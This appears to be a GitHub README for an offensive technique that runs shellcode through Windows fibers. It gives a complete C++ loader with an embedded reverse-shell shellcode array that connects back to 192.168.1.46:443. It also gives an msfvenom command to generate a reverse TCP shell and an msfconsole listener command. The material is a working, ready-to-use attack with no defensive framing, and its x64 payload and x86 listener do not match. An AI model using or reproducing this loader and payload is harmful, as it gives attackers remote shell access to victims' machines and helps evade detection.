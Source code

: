 # FIBERS

A fiber is a unit of execution that must be manually scheduled by the application. Fibers run in the context of the threads that schedule them. 

### Technique

* Convert the main thread to a fiber. This is required, because only one fiber can schedule another fiber.
* Write shellcode to some memory location and make it executable
* Create a new fiber that points to the shellcode location - this is the fiber we will be scheduling from the fiber we got in step 1 when converting the main thread to a fiber.
* Schedule the newly created fiber that points to our shellcode
* The fiber gets scheduled and shellcode executes

#### fibers.cpp

```cpp
#include <Windows.h>

int main()
{
// convert main thread to fiber
PVOID mainFiber = ConvertThreadToFiber(NULL);

unsigned char shellcode[] = "\xfc\xe8\x8f\x00\x00\x00\x60\x31\xd2\x89\xe5\x64\x8b\x52\x30\x8b\x52\x0c\x8b\x52\x14\x31\xff\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\x49\x75\xef\x52\x8b\x52\x10\x57\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4c\x01\xd0\x8b\x58\x20\x01\xd3\x50\x8b\x48\x18\x85\xc9\x74\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31\xc0\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe0\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12\xe9\x80\xff\xff\xff\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\xc0\xa8\x01\x2e\x68\x02\x00\x01\xbb\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67\x00\x00\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68\x00\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\x0f\x85\x70\xff\xff\xff\xe9\x9b\xff\xff\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5";

PVOID shellcodeLocation = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
memcpy(shellcodeLocation, shellcode, sizeof shellcode);

// create a fiber that will execute the shellcode
PVOID shellcodeFiber = CreateFiber(NULL, (LPFIBER_START_ROUTINE)shellcodeLocation, NULL);

// manually schedule the fiber that will execute our shellcode
SwitchToFiber(shellcodeFiber);

return 0;
}
```

### Payload

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.46 LPORT=443  -f c 
```

### Listener

```bash
msfconsole -x "use exploits/multi/handler; set lhost 192.168.1.46; set lport 443; set payload windows/meterpreter/reverse_tcp; exploit"
```

Tips : run on x86 
